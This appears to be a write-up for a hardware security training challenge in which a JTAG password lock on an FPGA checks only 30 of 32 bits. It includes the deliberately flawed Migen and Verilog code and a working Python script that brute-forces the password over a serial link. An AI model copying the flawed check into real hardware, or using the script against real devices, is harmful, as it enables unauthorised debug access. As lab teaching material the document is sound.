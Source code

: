Challenge 4 : Unlock JTAG (Random version)
=============================================

.. note:: 

    This challenge can be disable, to change the configuration edit the file ``config.ini`` and modify the field ``jtag_password_random`` (this is a 4 ASCII character). This challenge is part of the challenges that revolves around the JTAG, this implies that if other challenges are activated it will change the Migen code used as well as the Verilog code generated, however the principle of the challenge remains the same. For more details I invite you to look at the : ``ip/jtag_lock.py``.

Introduction
------------

This challenge is part of the challenges around the JTAG interface, the goal of this challenge is to unlock the JTAG interface protected by a password (it's the same principle as the challenge number 3). Here the password is generated randomly and is checked bit by bit in the hardware. A bug is present at the level of the verification of the password, since the password is composed of 4 ASCII characters of the hexadecimal numbers in lower case (that allows the time of bruteforce), this one has thus a length of 32 bits, but the hardware verifies only 30 bits on the 32 of the password. To check the status of the JTAG interface you can use the status command, to enter a password you must use the unlock command. This challenge is classified as medium to high difficulty, you have to create a Python script that brute forces the password using the serial link.

Migen code of the challenge
---------------------------

We can see that the for loop goes from bit 0 to bit 30, each character is recovered from the memory mapped CSR.

.. code-block:: python

    ...

    self.comb += [self.password_status.status.eq(1)]
                for i in range(30):
                    self.comb += [
                        If(self.jtag_lock.storage == 1,
                            self.jtag_status.status.eq(1),
                            If(self.jtag_password_csr.storage[i] == self.jtag_password_csr_soft.storage[i],
                                soc.current_cpu.cpu_params["i_jtag_tdi"].eq(pin_tdi),
                                soc.current_cpu.cpu_params["i_jtag_tms"].eq(pin_tms),
                                soc.current_cpu.cpu_params["i_jtag_tck"].eq(pin_tck),
                                pin_tdo.eq(soc.current_cpu.cpu_params["o_jtag_tdo"])
                            ).Else(
                                dummy_tdi.eq(pin_tdi),
                                dummy_tms.eq(pin_tms),
                                dummy_tck.eq(pin_tck),
                                pin_tdo.eq(0),
                                self.password_status.status.eq(0)
                            )
                        ).Else(
                            dummy_tdi.eq(pin_tdi),
                            dummy_tms.eq(pin_tms),
                            dummy_tck.eq(pin_tck),
                            pin_tdo.eq(0),
                            self.jtag_status.status.eq(0),
                            self.password_status.status.eq(0)
                        )
                    ]

    ...

Verilog code of the challenge
-----------------------------

As you can see there is no way to recover the password from the Verilog code, the password is randomly generated from the firmware.

.. code-block:: verilog

    ...

    main_password_status_status <= 1'd1;
	if ((main_jtag_password_csr_storage[0] == main_jtag_password_csr_soft_storage[0])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[1] == main_jtag_password_csr_soft_storage[1])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[2] == main_jtag_password_csr_soft_storage[2])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[3] == main_jtag_password_csr_soft_storage[3])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[4] == main_jtag_password_csr_soft_storage[4])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[5] == main_jtag_password_csr_soft_storage[5])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[6] == main_jtag_password_csr_soft_storage[6])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[7] == main_jtag_password_csr_soft_storage[7])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[8] == main_jtag_password_csr_soft_storage[8])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[9] == main_jtag_password_csr_soft_storage[9])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[10] == main_jtag_password_csr_soft_storage[10])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[11] == main_jtag_password_csr_soft_storage[11])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[12] == main_jtag_password_csr_soft_storage[12])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[13] == main_jtag_password_csr_soft_storage[13])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[14] == main_jtag_password_csr_soft_storage[14])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[15] == main_jtag_password_csr_soft_storage[15])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[16] == main_jtag_password_csr_soft_storage[16])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[17] == main_jtag_password_csr_soft_storage[17])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[18] == main_jtag_password_csr_soft_storage[18])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[19] == main_jtag_password_csr_soft_storage[19])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[20] == main_jtag_password_csr_soft_storage[20])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[21] == main_jtag_password_csr_soft_storage[21])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[22] == main_jtag_password_csr_soft_storage[22])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[23] == main_jtag_password_csr_soft_storage[23])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[24] == main_jtag_password_csr_soft_storage[24])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[25] == main_jtag_password_csr_soft_storage[25])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[26] == main_jtag_password_csr_soft_storage[26])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[27] == main_jtag_password_csr_soft_storage[27])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[28] == main_jtag_password_csr_soft_storage[28])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[29] == main_jtag_password_csr_soft_storage[29])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end

    ...

Resolve the challenge
---------------------

To solve this challenge I created a python script that communicates to the trvaers of the serial link and that comes to test all the combinations of password by using the ``unlock`` command to enter the passwords and the ``status`` command to know if the password entered is the good one.

.. code-block:: python

    #!/usr/bin/env python3

    import serial
    import argparse

    def check_status():
        # Get the current status of the password
        ser.write(b'status\r')
        while (True):

            response = ser.readline()

            if ("JTAG is unlock" in response.decode()):
                return 1
            elif ("JTAG is lock" in response.decode()):
                return 0
            else:
                continue

    # Get the current status of the password
    def show_status():
        ser.write(b'status\r')
        while (True):

            response = ser.readline()

            if ("is lock" in response.decode() or "is unlock" in response.decode()):
                print(response.decode().replace("\n", ""))
                break
            else:
                continue

    parser = argparse.ArgumentParser(description='Password Bruteforce')
    parser.add_argument('-d', '--device', type=str, help='Device')
    args = parser.parse_args()

    ser = serial.Serial(args.device, 115200, timeout=1)

    print("Initial status :\n")
    show_status()

    if(check_status() == 1):
        print("JTAG already unlocked !\n")
        ser.close()
        exit(0)

    for i in range(16**4):
        current_password = '{:04x}'.format(i)
        print("Password currently test : " + current_password, end='\r')
        ser.write(b'unlock ' + current_password.encode('ASCII') + b'\r')
        
        status = check_status()
        if(status == 0):
            continue
        elif(status == 1):
            print("\n")
            print("The password is " + current_password + "\n")
            show_status()
            break;

    # Close the series port
    ser.close()

We can see that at the startup of the FPGA board the JTAG interface is well locked.

.. image:: images/hardcoded_password.png
  :width: 750
  :alt: The JTAG interface is lock

Then the script takes care of finding the correct password.

.. image:: images/bruteforce.png
  :width: 500
  :alt: Bruteforce script

Finally, the JTAG interface is unlocked.

.. image:: images/jtag_bruteforce_unlock.png
  :width: 500
  :alt: Bruteforce script